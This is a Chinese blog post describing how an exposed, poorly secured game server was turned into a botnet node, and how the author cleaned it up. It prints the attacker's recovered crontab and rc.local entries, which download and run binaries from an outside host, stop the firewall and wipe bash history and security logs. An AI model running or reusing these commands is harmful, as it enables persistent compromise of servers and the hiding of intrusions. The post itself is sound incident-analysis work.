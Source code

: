 ```yaml
---
layout: post
title: "记一次服务器被黑了"
description: ""
category: linux
tags: []
---
```

{% include JB/setup %}

有一个本地服，部署着游戏。我们称作‘本地服’。由于是本地，大家都是自己人，服务器安全防护的都关闭了。 密码123，iptables -F，selinux干掉，chmod都是777.   
呵呵，有一天老板突发奇想说想在家玩玩游戏，网管哥就在路由那里绑定，把服务器暴露出去了。。。 一直没留意。    
	
直到一天，全公司网络都非常慢，排查一下，发现199发包很猛，ssh登陆失败，密码被篡改了。才想起。。。。哦！服务器被黑了。


先把网线，让公司网络恢复先。进去机房，用单用户模式进去把服务器密码改回来。

上面没什么有价值的东西，不太造成损失。 （上面都是编译好了的端，没源码）于是乎开始服务器上寻找蛛丝马迹。     

思路一：先找出入侵者做过什么   
看看bash操作日志 `root@server199:~# cat -n .bash_history`  ，可惜被清空了。   

思路二：入侵者会留下什么  
我先想起定时任务，crontab -l  ,出现了一堆注释。我原本游戏是有定时任务的，被填入这么多注释，想必也是把操作隐藏在茫茫多的注释里面。
我把操作都找了出来。   
	
	*/101 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/sksapd
	*/101 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/skysapd 
	*/1 * * * * killall -9 new6
	*/1 * * * * killall -9 new4
	*/1 * * * * cd /etc; rm -rf dir sksapd.*
	*/1 * * * * cd /etc; rm -rf dir skysapd.*
	*/99 * * * * cd /root > .bash_history
	*/1 * * * * chmod 7777 /etc/sksapd
	*/1 * * * * chmod 7777 /etc/skysapd
	*/99 * * * * killall -9 cupsdd
	*/1 * * * * killall -9 node24
	*/98 * * * * killall -9 ksapd
	*/96 * * * * killall -9 kysapd
	*/96 * * * * killall -9 atdd
	*/1 * * * * chmod 7777 /etc/cupsdd
	*/1 * * * * chmod 7777 /etc/ksapd
	*/1 * * * * chmod 7777 /etc/kysapd
	*/96 * * * * killall -9 sksapd
	*/96 * * * * killall -9 skysapd
	*/1 * * * * chmod 7777 /etc/atdd
	*/1 * * * * /etc/init.d/iptables stop
	*/1 * * * * nohup /etc/cupsdd > /dev/null 2>&1&
	*/99 * * * * cd /etc;./ksapd
	*/97 * * * * cd /etc;./kysapd
	*/97 * * * * cd /etc;./atdd
	*/69 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/cupsdd 
	*/97 * * * * cd /etc;./sksapd
	*/97 * * * * cd /etc;./skysapd
	*/79 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/ksapd
	*/89 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/kysapd
	*/99 * * * * cd /etc; wget http://www.dgnfd564sdf.com:8080/atdd
	*/1 * * * * cd /etc; rm -rf dir cupsdd.*
	*/1 * * * * cd /etc; rm -rf dir kysapd.*
	*/1 * * * * cd /etc; rm -rf dir ksapd.*
	*/1 * * * * cd /etc; rm -rf dir atdd.*
	*/1 * * * * killall -9 freeBSD
	*/1 * * * * history -c
	*/15 * * * * cd /var/log > secure


好吧，很明显的了，是被人做肉鸡了，定时下个skysapd什么的，执行。

同时在/etc/rc.local里没发现

	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd
	nohup /etc/cupsdd > /dev/null 2>&1&
	cd /etc;./ksapd
	cd /etc;./kysapd
	cd /etc;./atdd

把东西都干掉，撤销外网。以前就继续用了。后来用`last`命令看了一下，有两个登陆ip。把脚本的域名也查了一下。   
结果如下，便没有继续追寻下去了。   

您的IP查询为：122.224.34.42   
电脑IP地址查询详细位置：浙江省绍兴市 电信  


您的IP查询为：1.82.228.218  
电脑IP地址查询详细位置：陕西省西安市  


您的IP查询为：60.180.156.102  
电脑IP地址查询详细位置：浙江省温州市 (龙湾区)电信  
-EOF
